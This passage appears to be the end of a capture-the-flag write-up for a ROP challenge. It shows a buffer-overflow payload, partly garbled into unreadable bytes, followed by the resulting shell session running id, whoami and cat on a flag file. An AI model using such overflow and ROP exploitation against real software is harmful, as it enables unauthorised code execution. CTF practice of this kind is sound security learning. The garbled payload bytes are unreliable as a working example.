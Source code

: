 ```bash
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�ӄӄӄ]���ՄY�للللللل��������������������������������������������������������������������������������������������������������������������������������������������ׄׄ����������������ׄ������ׄ����ׄ��������������ׄ������������ЄY���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������]�@�ӄӄӄӄЄ
/bin/sh
id
uid=1001(pwn2) gid=1001(pwn2) groups=1001(pwn2)
whoami
pwn2
cat flag.txt
sctf{r0p_70_th3_f1n1sh}
```
In conclusione it was a very nice ROP challenge!!
